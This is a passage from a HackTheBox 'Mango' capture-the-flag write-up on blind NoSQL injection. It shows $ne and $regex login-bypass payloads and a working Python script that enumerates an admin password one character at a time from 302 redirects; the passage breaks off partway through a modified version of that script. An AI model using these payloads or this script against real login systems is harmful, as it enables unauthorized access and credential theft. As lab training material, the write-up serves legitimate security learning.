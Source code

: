 ## NoSQL Injection

<hr>

Using the info from the *Extract data information* section, we can actually use the `$regex` syntax to do a blindly guess the password. The two fields that do give us a 302 redirect are: `username[$ne]=toto&password[$regex]=m.{2}` and `username[$ne]=toto&password[$regex]=m.*`. With this bit of information, we know we can slowly enumerate the password.

![NoSQL regex](/images/HackTheBox/Mango/19.JPG)

**Note: I did these next steps in Burp Intruder before getting stuck. I spent another good 3-4 hours breaking my head, trying to enumerate the users' passwords. Eventually I switched over to the route that everyone recommended in the forums, which was to create a script.**

The next logical step is to guess the password. Remember that we don't have any debugging information coming back to us, except a redirect. Therefore, this next attack will be done blindly, hence the name, **Blind NoSQL Injection**. We can start by using the script found under *POST with JSON body* on the same NoSQL Injection page.

```
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

Let's do some modifications to our script. First, let's add the json library, so we manipulate our payload in JSON. Speaking about JSON, since our mango app doesn't 'talk' in JSON, we need to change the header content-type back to a form. `headers={'Content-Type': 'application/x-www-form-urlencoded'}`. We also need to modify our payload to be in the same format as in our site along with the regex parameter, and remove a couple of "good" special chars.

Our ending result is this:
```
#!/usr/bin/python3
import json
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://staging-order.mango.htb"
headers={'Content-Type': 'application/x-www-form-urlencoded'}

while True:
```
